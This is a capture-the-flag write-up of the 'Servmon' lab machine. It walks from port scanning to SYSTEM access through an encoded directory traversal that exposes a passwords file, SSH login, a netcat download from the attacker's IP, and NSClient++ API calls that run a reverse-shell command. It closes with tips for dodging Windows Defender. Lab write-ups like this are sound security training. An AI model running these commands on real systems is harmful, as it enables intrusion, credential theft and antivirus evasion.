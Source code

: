 # Servmon

### Reconnaissance

- port 21 FTP Microsoft ftpd  
- port 22 SSH OpenSSH for_Windows_8.0 (protocol 2.0)  
- port 80 HTTP  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 445/tcp SMB  
- port 5666/tcp Nagios NRPE? https://assets.nagios.com/downloads/nagioscore/docs/nrpe/NRPE.pdf  
- port 6063/tcp X11? https://wiki.wireshark.org/X11  
- port 6699/tcp  
- port 8443/tcp HTTPS domain=localhost  
- port 49664-49670/tcp RPC

**Port 21 FTP** anonymous access allowed, found 2 user directories (Nathan and Nadine) and text files 
mentioning a Passwords.txt on Nathans Desktop

**Port 445 SMB** no access

**Port 80** hosts NVMS-1000, a CMS software for network video surveillance

- potential directory traversal

/index.htm

**Port 8443** hosts NSClient++

/api
/metrics

### Exploitation

searchsploit shows a Directory Traversal vulnerability for NVMS-100 but the script doesn't work

Trying different filter bypass techniques gets us access to Passwords.txt

Directory traversal on port 80 exposing the Passwords.txt file mentioned in the FTP files

`10.10.10.184/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fusers/nathan/desktop/Passwords.txt`

![Directory Traversal](./pictures/dir-traversal.png)

None of the passwords work for the log in panels but one works for Nadine's ssh password, giving us user 
access

![SSH](./pictures/ssh.png)

### Exploitation

systeminfo is denied to us, any enumeration scripts or binaries get blocked and deleted by Defender, even 
when running in memory

Looking in Program Files we can see the applications corresponding to the services running on port 80 and 
port 8443 (NVMS and NSClient++)

Searching for NSClient on searchsploit shows a privesc vulnerability as the service runs as System, and that
the password for NSClient is found in nsclient.ini

We can check if the version of NSClient is vulnerable, and it is

`cmd /c "C:\Program Files\NSClient++\nscp.exe" --version`

![NSCP version](./pictures/nscp-version.png)

We need to upload a netcat binary and add a script to NSClient that can execute netcat giving us a reverse 
shell

We can upload netcat to the target with `Invoke-WebRequest` to a temp folder that we create in C:\ as we 
have write access

![Write access](./pictures/c-write.png)

`PS C:\temp> Invoke-WebRequest -Uri http://10.10.10.10:80/nc64.exe -Outfile nc.exe`

Using a local ssh tunnel we can access the service on port 8443 on our attacking machine

`ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184`

We can then use the API (https://nsclient.org/docs/api/rest/scripts/#add-script) to upload and execute the 
script, using port 443 to avoid the AV dropping our connection

`curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/revshell.bat --data-binary "C:\temp\nc.exe 10.10.10.10 443 -e cmd.exe"`

Then we start a listener and execute the script (https://nsclient.org/docs/api/rest/queries/#command-execute)

`curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/revshell/commands/execute?time=3m`

This gives a System shell on the target

### Lessons Learned

- Wireshark Port Reference is an excellent resource

- Work your way down the list of [PayloadsAllTheThings directory traversal cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) when checking for directory traversal

- Check executable version with `cmd /c "C:\Program Files\Program\program.exe" --version`

- Look for API docs for services if the dashboard/service is buggy

- The registry can help enumerate services if access to sc.exe is denied  
`reg query HKLM\SYSTEM\CurrentControlSet\Services`

- If well-known scripts/binaries/exploits get detected by Windows Defender/AV, try creating a new directory 
and using basic tools like netcat and manual enumeration
